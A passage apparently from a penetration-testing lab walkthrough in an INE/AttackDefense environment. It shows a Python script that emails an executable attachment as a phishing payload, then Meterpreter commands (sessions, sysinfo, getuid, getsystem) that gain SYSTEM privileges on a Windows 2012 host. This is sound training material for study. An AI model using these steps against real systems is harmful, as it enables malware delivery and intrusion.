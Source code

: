 ```python
#smtp_username = "your.username"
#smtp_password = "your.password"

# Create the email message object
message = MIMEMultipart()
message["From"] = sender_email
message["To"] = recipient_email
message["Subject"] = email_subject
message.attach(MIMEText(email_body, "plain"))

# Add the attachment
attachment_file = "/root/Desktop/attachment.exe"
attachment = open(attachment_file, "rb")
attachment_part = MIMEBase("application", "octet-stream")
attachment_part.set_payload(attachment.read())
encoders.encode_base64(attachment_part)
attachment_part.add_header("Content-Disposition", f"attachment; filename= {attachment_file}")
message.attach(attachment_part)

# Connect to the SMTP server and send the email
with smtplib.SMTP(smtp_server, smtp_port) as server:
    #server.starttls()
    #server.login(smtp_username, smtp_password)
    server.send_message(message)

print("Email sent successfully!")
```

`python3 /root/Desktop/send_email_smtplib.py`:
```
Email sent successfully!
```

**Step 6**.

`sessions`, `sessions -i 1`, `sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : INE
Logged On Users : 4
Meterpreter     : x64/windows
```

`getuid`:
```
Server username: INE\administrator
```

`getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```
